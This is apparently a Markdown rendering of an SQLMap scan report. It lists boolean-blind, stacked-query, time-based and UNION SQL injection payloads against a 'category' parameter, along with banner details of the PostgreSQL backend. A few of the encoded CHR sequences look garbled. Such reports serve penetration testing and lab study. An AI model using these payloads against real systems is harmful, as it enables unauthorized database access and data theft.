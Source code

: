 Here is the report in Markdown format:

SQLMap Scan Report
=====================

**Vulnerabilities**
--------------------

**Critical**
-------------

* **Boolean-Based Blind SQL Injection**: `category=Accessories' AND 1250=1250-- QTjO`
	+ Type: boolean-based blind
	+ Title: AND boolean-based blind - WHERE or HAVING clause
* **Stacked Queries**: `category=Accessories';SELECT PG_SLEEP(5)--`
	+ Type: stacked queries
	+ Title: PostgreSQL > 8.1 stacked queries (comment)
* **Time-Based Blind SQL Injection**: `category=Accessories' AND 5815=(SELECT 5815 FROM PG_SLEEP(5))-- WenF`
	+ Type: time-based blind
	+ Title: PostgreSQL > 8.1 AND time-based blind
* **UNION Query SQL Injection**: `category=Accessories' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(CHR(113)||CHR(122)||CHR(113)||CHR(120)||CHR(113))||(CHR(65)||CHR(108)||CHR(100)||CHR(89)||CHR(66)||CHR(103)||CHR(89)||CHR(100)||CHR(71)||CHR(66)||CHR(98)||CHR(113)||CHR(112)||CHR(112)||CHR(113)||CHR(74)||CHR(100)||CHR(82'||CHR(106)||CHR(121)||CHR(116)||CHR(114)||CHR(86)||CHR(108)||CHR(112)||CHR(101)||CHR(77'||CHR(111)||CHR(83)||CHR(113)||CHR(88)||CHR(100)||CHR(115)||CHR(83'||CHR(72)||CHR(117)||CHR(114)||CHR(88)||CHR(122)||CHR(111))||(CHR(113)||CHR(113)||CHR(112)||CHR(98)||CHR(113)),NULL,NULL-- JNpB`
	+ Type: UNION query
	+ Title: Generic UNION query (NULL) - 8 columns

**High**
----------

None

**Medium**
------------

None

**Low**
---------

None

**DBMS Information**
--------------------

* Back-end DBMS operating system: Linux Ubuntu
* Back-end DBMS: PostgreSQL
* Banner: 'PostgreSQL 12.18 (Ubuntu 12.18-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit'